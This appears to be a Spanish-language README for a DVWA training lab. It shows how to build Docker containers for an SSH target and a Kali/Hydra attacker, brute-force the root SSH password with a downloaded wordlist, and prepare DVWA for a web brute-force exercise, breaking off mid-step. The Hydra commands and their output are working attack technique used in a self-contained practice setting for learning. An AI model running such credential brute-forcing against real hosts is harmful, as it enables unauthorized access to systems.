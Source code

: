 About

Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment

Project Home: https://github.com/digininja/DVWA

PRIMERA PARTE
===============================================================
1

Si usa https://labs.play-with-docker.com/ se recomienda usar 

docker login -u username -p password
git clone https://github.com/cesarbobadilla/dvwa.git
cd dvwa  
git checkout BruteForce

2
En la carpeta SSH, usamos el archivo Dockerfile, luego 

docker build -t alpine-ssh SSH/.

docker run --rm --publish=2222:22 alpine-ssh

3
Desde otra instancia podemos probar el acceso 

ssh root@host -p 2222   por ejemplo ( ssh root@192.168.0.6 -p 2222 )

Ponemos el password: computer (que se configuro en el ejemplo, especificamente en el Dockerfile)

4
Ahora en otra instancia, usamos lo que hay en la carpeta HYDRA, usamos el archivo Dockerfile, luego

git clone https://github.com/cesarbobadilla/dvwa.git
cd dvwa  
git checkout BruteForce
docker build -t kali-hydra HYDRA/.
docker run -it kali-hydra /bin/bash 

Una vez que estamos en la shell del contenedor, descargamos un diccionario de contraseñas de 10000 posibilidades

curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt > passlist.txt

Y ahora ejecutamos Hydra para que adivine la contraseña configurada, dandole previamente el usuario root y de referencia el diccionario descargado passlist.txt. En el ejemplo consideramos que el ssh esta corriendo en la 192.168.0.6

hydra -s 2222 -l root -P passlist.txt 192.168.0.6 -t 4 -V ssh 

Debería seguir ejecutando hasta que vea algo como

...
..
.
[ATTEMPT] target 192.168.0.17 - login "root" - pass "159753" - 55 of 9999 [child 0] (0/0)
[ATTEMPT] target 192.168.0.17 - login "root" - pass "iloveyou1" - 56 of 9999 [child 2] (0/0)
[2222][ssh] host: 192.168.0.17   login: root   password: computer
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-30 15:54:40

Donde concluimos que la contraseña adivinada es "computer"

Levantamos otra instancia donde ejecutamos el proyecto de DVWA

git clone https://github.com/cytopia/docker-dvwa.git
cd docker-dvwa/
make start

Una vez concluido esto debemos ver algo como

...
..
.
$ make start

+] Running 4/4
 ✔ Network docker-dvwa_dvwa-net       Created                                                                       0.0s 
 ✔ Volume "docker-dvwa_dvwa_db_data"  Created                                                                       0.0s 
 ✔ Container docker-dvwa-dvwa_web-1   Started                                                                       0.1s 
 ✔ Container docker-dvwa-dvwa_db-1    Started                                                                       0.1s 
docker-compose logs dvwa_web 2>&1 | grep "Setting"
docker-dvwa-dvwa_web-1  | Setting PHP version:        PHP 8.1.16 (cli) (built: Mar  1 2023 12:38:41) (NTS)
docker-dvwa-dvwa_web-1  | Setting MySQL hostname:     dvwa_db
docker-dvwa-dvwa_web-1  | Setting MySQL database:     dvwa
docker-dvwa-dvwa_web-1  | Setting MySQL username:     dvwa
docker-dvwa-dvwa_web-1  | Setting MySQL password:     ********
docker-dvwa-dvwa_web-1  | Setting Recaptcha priv key: 
docker-dvwa-dvwa_web-1  | Setting Recaptcha pub key:  
docker-dvwa-dvwa_web-1  | Setting Security level:     medium
docker-dvwa-dvwa_web-1  | Setting PHP error display:  0
docker-dvwa-dvwa_web-1  | Setting PHP IDS state:      disabled
docker-dvwa-dvwa_web-1  | Setting PHP IDS verbosity:  false

 Y el proyecto estará ejecutando en el puerto 8000, en login.php, ingresamos con usuario admin y password admin, esto nos llevará a setup.php donde configuramos el proyecto presionando el boton  "Create/Reset Database" al final de la página, al final de la página aparecerá algo como:

 ...
 ..
 .
Database has been created.
'users' table was created.
Data inserted into 'users' table.
'guestbook' table was created.
Data inserted into 'guestbook' table.
Backup file /config/config.inc.php.bak automatically created
Setup successful!
Please login.

Damos click al link de login que estará resltado en verde, en usuario colocamos admin y en password colocamos password, esto nos llevará a index.php

ahí, vamos al las opciones finales y elegimos el boton de "DVWA Security" y elegimos el nivel "Low" y damos click al boton Submit, despuès vamos al boton de Brute Force y estamos listos para iniciar el ataque con hydra, 

regresamos a la instancia donde se encuentra Hydra y 









 




